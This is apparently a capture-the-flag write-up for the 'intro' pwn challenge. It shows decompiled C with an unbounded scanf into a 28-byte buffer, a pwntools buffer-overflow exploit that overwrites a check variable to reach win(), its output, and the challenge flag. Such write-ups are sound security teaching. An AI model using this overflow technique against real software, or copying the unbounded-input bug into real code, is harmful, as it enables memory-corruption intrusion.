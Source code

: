 # intro 

## Description: 

* Welcome to pwn city :) 

## Objective: 

* Take advantage of *Bof* to overwrite the value of `check` and call `win()`.

## Flag: :black_flag:
* UNIWA{w3lc0M3_2_pwN_c1TY_fr13nd!}

## Challenge:

The interface looks like this:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/intro$ ./intro 
Welcome to pwn city!
This is just an intro level to warm up.
Please enter your name:
> w3t
Nice to meet you w3t!
```

 Nothing more to see here, let's disassemble the program.

### Disassembly :pick:

We start from `main()`:

```c
undefined8 main(void)

{
  undefined local_28 [28];
  int local_c;
  
  setup();
  local_c = -0x21524111;
  printf(
        "Welcome to pwn section!\nThis is just an intro level to warm up.\nPlease enter yourname:\n> "
        );
  __isoc99_scanf(&DAT_00100a43,local_28);
  if (local_c == -0x3f214542) {
    win();
  }
  printf("Nice to meet you %s!\n",local_28);
  return 0;
}
```

We see that there is a call to `win()`.

`win():`

```c
void win(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag*");
  return;
}
```

We see that there is a *bof* at `scanf`, that we can take advantage of.

The buffer is 28 bytes and `scanf` reads unlimited bytes. 

We can do 2 things:

* Overflow the buffer and change the value of `local_c` in order to call `win`.
* Overflow the buffer and overwrite the return address in order to call `win`.

I just changed the value that is after the buffer as we can see from the disassembly.

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'some_ip' # change this
port = 6969 # change this
fname = './intro'

LOCAL = True

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	junk = b'i'*28
	payload = junk + p64(0xc0debabe)
	sla('>', payload)
	ru('{')[:-1]
	flag = ru('}')
	print('Flag: UNIWA{' + flag.decode())

if __name__ == '__main__':
	pwn()
```

### PoC: :checkered_flag:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/intro$ ./exp.py 
[+] Starting local process './intro': pid 6846
Flag: UNIWA{w3lc0M3_2_pwN_c1TY_fr13nd!}
```